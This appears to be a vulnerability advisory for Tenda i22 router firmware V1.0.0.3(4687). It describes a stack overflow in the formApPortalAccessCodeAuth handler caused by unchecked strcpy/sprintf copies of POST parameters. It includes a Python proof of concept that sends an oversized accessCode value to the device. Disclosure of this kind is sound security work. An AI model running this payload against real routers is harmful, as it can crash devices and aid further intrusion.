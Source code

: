 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalAccessCodeAuth` function. This function accepts `accessCode`, `data` and `acceInfo` parameters from a POST request. All of the parameters are later copied by `strcpy` or `sprintf` to variables on the stack, causing a stack overflow.

![image1](image/1.png)

![2](image/2.png)

![3](image/3.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAccessCodeAuth"
payload = b"a"*2000

data = {
    "accessCode": payload,
    "data": "1",
    "acceInfo": "2"
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)
